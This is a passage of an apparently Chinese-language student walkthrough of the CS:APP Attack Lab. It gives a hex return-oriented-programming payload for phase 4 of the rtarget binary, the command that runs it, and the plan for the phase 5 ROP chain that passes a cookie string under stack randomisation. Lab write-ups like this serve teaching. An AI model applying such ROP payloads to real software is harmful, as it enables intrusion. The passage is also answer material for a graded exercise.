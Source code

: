 编写答案 sol4.txt(注意小端法)

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00  00 00 00 00
ec 17 40 00 00 00 00 00
```

输入命令

```
./hex2raw <sol4.txt >sol4r.txt && ./rtarget -q -i sol4r.txt
```

注意是要运行rtarget!!!,不要搞错了兄弟们!!!

若出现以下界面则为成功通关

![image-20240302021056405](https://cdn.jsdelivr.net/gh/zhzvite/picgoroom@img/img/202403020220002.png)



## Phase_5

> 坚持就是胜利!

![image-20240229212126798](https://cdn.jsdelivr.net/gh/zhzvite/picgoroom@img/img/202402292127944.png)

![image-20240229212144522](https://cdn.jsdelivr.net/gh/zhzvite/picgoroom@img/img/202402292127952.png)

<img src="https://cdn.jsdelivr.net/gh/zhzvite/picgoroom@img/img/202403020220043.png" alt="image-20240301232923919" style="zoom:200%;" />

我们要通过ROP实现touch3的功能,touch3在phase_3的实现如下

```
push $0x004018fa
lea 0x8(%rsp),%rdi
retq
```

操作顺序如下:

- 把touch3的地址压入栈中
- 把cookie的字符串指针地址存入到%rdi寄存器中

 ```
 35 39 62 39 39 37 66 61 00 # 00 是字符串末尾结束的\0
 ```

地址怎么找?

这是要重点解决的问题.因为开启了栈的随机化,无法定位字符串精确位置但我们可以通过栈顶的地址+相对地址得到字符串的地址
